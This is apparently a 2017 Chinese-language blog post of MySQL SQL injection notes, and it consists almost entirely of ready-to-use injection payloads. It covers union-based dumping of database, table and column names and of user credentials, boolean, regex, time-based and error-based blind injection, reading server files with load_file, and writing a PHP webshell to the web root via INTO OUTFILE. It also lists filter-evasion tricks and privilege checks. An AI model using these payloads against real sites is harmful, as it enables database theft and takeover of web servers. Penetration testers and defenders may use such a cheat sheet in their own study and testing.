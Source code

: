 ```yaml
---
layout: post
title: "MySQL SQL注入笔记"
date: 2017-08-27
categories: Note
---
```


### 常规报错

- 猜字段数

  `order by n/*`

#### 数字型

- 获取当前数据库名：

  `http://a.com/test/1.php?id=1 and 1=2 union select GROUP_CONCAT(DISTINCT+database()),2 from information_schema.columns`
- 获取所有表名:

  `http://a.com/test/1.php?id=1 and 1=2 union select GROUP_CONCAT(DISTINCT+table_name),2 from information_schema.columns+where+table_schema=0x7374756479              //0x7374756479为数据库名的16进制`

- 获取表名中所有的字段:

  `http://a.com/test/1.php?id=1 and 1=2 union select GROUP_CONCAT(DISTINCT+column_name),2 from information_schema.columns+where+table_name=0x7573657273 and table_schema=0x7374756479     //0x7573657273为表名的16进制`

- 获取数据:

  `http://a.com/test/1.php?id=1 and 1=2 union select concat(字段1,0x2323,字段2),2 from 表名`

#### 字符型

  `http://a.com/test/1.php?id=admin%' and 1=2 union select 1,2,concat(name,0x2323,pass) from users%23`

### 盲注

- 使用 ascii （配上二分法食用更佳）
  - 获取数据库名

    `http://a.com/test/1.php?id=1 and ord(substr(database(),1,1))=115 //判断数据库名的第一个字符的ascii,如果ascii与后面的数字不一样,则报错…`

  - 获取表名

    `http://a.com/test/1.php?id=1 and ord(substr((select distinct table_name from information_schema.columns where table_schema=0x7374756479 limit 1,1),1,1))=97`

  - 获取字段

    `http://a.com/test/1.php?id=1 and ord(substr((select name from users limit 0,1),1,1))=117`

  - 获取数据

    `http://a.com/test/1.php?id=1 and ord(substr((select name from users limit 0,1),1,1))=117`

- 使用正则表达式

  `and 1=(SELECT 1 FROM information_schema.tables  WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)`

#### 基于时间的盲注

  `SELECT target_column FROM target_table WHERE id=1 UNION SELECT IF(ord(substr(database(),1,1))=115, sleep(5),1)`

#### 基于报错

  - `http://www.waitalone.cn/sql.php?id=1+and(select 1 from (select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))name from information_schema.tables group by name) as b)`

  - `updatexml(0x7e, concate(select user()),1) --+`

#### MySQL 读写文件

  - `create table a(cmd text);load data infile ’c:\xxx\xxx\xxx.txt’ into table a;select * from a;`
  - `create table a(cmd text);insert into a(cmd) values(load_file(’c:\ddd\ddd\ddd.txt’));select * from a`
  - `load_file(char(32,26,56,66))`
  - `load_file(0x633A5C626F6F742E696E69)`
  - `union select 1,2,3,char(这里写入你转换成10进制或16进制的一句话木马代码),5,6,7,8,9,10,7 into outfile ’d:web90team.php’/*
union select 1,2,3,load_file(’d:weblogo123.jpg’),5,6,7,8,9,10,7 into outfile ’d:web90team.php’/*`

#### 注入技巧

  - 过滤空格注入
    使用/**/或()或+代替空格

    %0c = form feed, new page

    %09 = horizontal tab

    %0d = carriage return
    
    %0a = line feed, new line

  - 相关函数
    system_user() 系统用户名
    user() 用户名
    current_user 当前用户名
    session_user()连接数据库的用户名
    database() 数据库名
    version() MYSQL数据库版本
    load_file() MYSQL读取本地文件的函数
    @@datadir 读取数据库路径
    @@basedir MYSQL 安装路径
    @@version_compile_os 操作系统 

  - 判断是否具有读写权限

    `and (select count(*) from mysql.user)>0/*`
    `and (select count(file_priv) from mysql.user)>0/*`